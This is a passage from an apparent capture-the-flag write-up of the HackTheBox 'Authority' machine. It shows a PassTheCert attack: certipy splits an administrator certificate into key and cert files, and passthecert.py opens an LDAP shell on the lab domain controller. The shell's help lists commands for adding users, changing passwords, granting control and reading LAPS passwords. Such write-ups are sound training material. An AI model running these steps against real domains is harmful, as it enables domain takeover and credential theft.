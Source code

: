 #### LDAP Shell \[Path 1\]

To perform a PassTheCert attack, I'll need the key and certificate in
separate files, which `certipy` can handle:



    oxdf@hacky$ certipy cert -pfx administrator_authority.pfx -nocert -out administrator.key
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Writing private key to 'administrator.key'
    oxdf@hacky$ certipy cert -pfx administrator_authority.pfx -nokey -out administrator.crt
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Writing certificate and  to 'administrator.crt'



[This repo](https://github.com/AlmondOffSec/PassTheCert) has C# and
Python tools to do a PassTheCert attack. It also offers an `ldap-shell`
option that allows me to run a limited set of commands on the DC. I'll
clone it, and then run `passthecert.py` with the following options:

-   `-action ldap-shell` - provide a limited set of commands
-   `-crt administrator.crt -key administrator.key` - the certificate
    and key files
-   `-domain authority.htb -dc-ip 10.10.11.222` - target info

It connects:



    oxdf@hacky$ python PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    Type help for list of commands

    #



I'll play around with the various commands:



    # help

     add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
     rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
     add_user new_user [parent] - Creates a new user.
     add_user_to_group user group - Adds a user to a group.
     change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
     clear_rbcd target - Clear the resource based constrained delegation configuration information.
     disable_account user - Disable the user's account.
     enable_account user - Enable the user's account.
     dump - Dumps the domain.
     search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
     get_user_groups user - Retrieves all groups this user is a member of.
     get_group_users group - Retrieves all members of a group.
     get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
     grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
     set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
     set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).